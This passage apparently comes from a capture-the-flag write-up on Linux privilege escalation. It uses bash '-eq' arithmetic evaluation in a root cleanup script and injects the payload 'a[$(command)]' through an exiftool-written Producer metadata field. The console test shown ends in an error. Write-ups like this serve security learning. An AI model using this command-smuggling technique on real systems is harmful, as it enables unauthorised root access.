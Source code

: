 ![google-search-bash-eq-privilege-escalation.png](google-search-bash-eq-privilege-escalation.png)

Found [Bash eq Privilege Escalation \| Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/) article.
This article talking about shell script containing `[[ $var -eq 42 ]]`, this can be exploitable.
Payload is `a[$(command)]`.

Testing it.

```console
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$(touch /tmp/hacked)]' foo

www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh: line 9: [[: a[$(touch: bad array subscript (error token is "a[$(touch")
```
